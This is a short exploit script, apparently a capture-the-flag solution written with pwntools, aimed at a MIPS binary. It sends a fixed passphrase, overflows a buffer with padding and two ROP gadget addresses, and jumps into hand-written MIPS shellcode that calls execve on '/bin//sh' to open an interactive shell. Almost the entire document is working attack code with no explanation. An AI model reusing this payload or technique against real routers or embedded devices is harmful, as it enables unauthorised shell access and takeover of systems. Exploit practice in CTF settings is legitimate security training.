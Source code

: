 ```plain
# 0x0043965C | addiu $a2,$sp,0x68+var_10 | jalr $fp
# 0x0040ABB8 | move $t9,$a2 | jalr $a2

p.sendlineafter('your passphrase: ','三元一串十元三串')
shellcode = '''
lui $t6,0x6e69
ori $t6,$t6,0x622f
sw $t6,28($sp)

lui $t7,0x6873
ori $t7,$t7,0x2f2f
sw $t7,32($sp)
sw $zero,36($sp) 

la $a0,28($sp)

addiu $a1,$zero,0
addiu $a2,$zero,0
addiu $v0,$zero,4011

syscall 0x40404
'''
shellcode = asm(shellcode)

pl='a'*0x40+p32(0x0040ABB8)+p32(0x0043965C)
pl=pl.ljust(0xa0,'a')+shellcode
sa('Congratulation!\n',pl)

itr()
```

